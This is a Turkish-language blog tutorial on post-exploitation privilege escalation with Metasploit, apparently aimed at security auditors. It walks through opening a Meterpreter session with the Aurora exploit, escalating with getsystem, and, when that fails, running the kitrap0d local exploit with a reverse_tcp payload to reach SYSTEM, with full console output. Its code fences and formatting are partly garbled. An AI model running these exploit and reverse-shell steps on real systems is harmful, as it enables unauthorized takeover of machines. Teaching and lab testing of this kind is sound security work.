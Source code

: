 ```yaml
---
draft: false

title:  'MSF Yetki Yükseltme'
date: '2017-05-25T13:16:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.' 
 
url:  /tr/msf-yetki-yukseltme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ya sonra?



Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?



Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.



Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.



## Yetkisiz Oturum



Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.


```bash
msf exploit**(**ms10_002_aurora**)** **&gt;**
**[*********]** Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
**[*********]** Sending stage **(**748544 bytes**)** to 192.168.1.161
**[*********]** Meterpreter session 3 opened **(**192.168.1.71:38699 -&gt; 192.168.1.161:4444**)** at 2010-08-21 13:39:10 -0600

msf exploit**(**ms10_002_aurora**)** **&gt;** sessions -i 3
**[*********]** Starting interaction with 3...

meterpreter **&gt;** getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter **&gt;**
```



## GetSystem



`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.


```bash
meterpreter **&gt;** use priv
Loading extension priv...success.
meterpreter **&gt;**
```



`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.



``sh meterpreter &gt; getsystem -h Usage: getsystem [options]



Attempt to elevate your privilege to that of local system.



OPTIONS:


```bash
-h        Help Banner.
-t &lt;opt&gt;  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
```



meterpreter &gt;


```bash

```getsystem
``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir. 

```sh
meterpreter &gt; getsystem
...got system (via technique 1).
meterpreter &gt; getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter &gt;
```



## Yerel Exploit Kullanma



Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.


```bash
meterpreter **&gt;** getsystem
**[**-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter **&gt;**
```



Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.


```bash
meterpreter **&gt;** background
**[*********]** Backgrounding session 1...
msf exploit**(**ms10_002_aurora**)** **&gt;** use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit**(**ms10_002_aurora**)** **&gt;**
```



Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.


```bash
msf exploit**(**ms10_002_aurora**)** **&gt;** use exploit/windows/local/ms10_015_kitrap0d
msf exploit**(**ms10_015_kitrap0d**)** **&gt;** set SESSION 1
msf exploit**(**ms10_015_kitrap0d**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit**(**ms10_015_kitrap0d**)** **&gt;** set LHOST 192.168.1.161
msf exploit**(**ms10_015_kitrap0d**)** **&gt;** set LPORT 4443
msf exploit**(**ms10_015_kitrap0d**)** **&gt;** show options

Module options **(**exploit/windows/local/ms10_015_kitrap0d**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**accepted: seh, thread, process, none**)**
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 **(**x86**)**


msf exploit**(**ms10_015_kitrap0d**)** **&gt;** exploit

**[*********]**  Started reverse handler on 192.168.1.161:4443 
**[*********]**  Launching notepad to host the exploit...
**[**+]  Process 4048 launched.
**[*********]**  Reflectively injecting the exploit DLL into 4048...
**[*********]**  Injecting exploit into 4048 ...
**[*********]**  Exploit injected. Injecting payload into 4048...
**[*********]**  Payload injected. Executing exploit...
**[**+]  Exploit finished, wait **for** **(**hopefully privileged**)** payload execution to complete.
**[*********]**  Sending stage **(**769024 bytes**)** to 192.168.1.71
**[*********]**  Meterpreter session 2 opened **(**192.168.1.161:4443 -&gt; 192.168.1.71:49204**)** at 2014-03-11 11:14:00 -0400
```



Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.


```bash
meterpreter **&gt;** getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter **&gt;**```
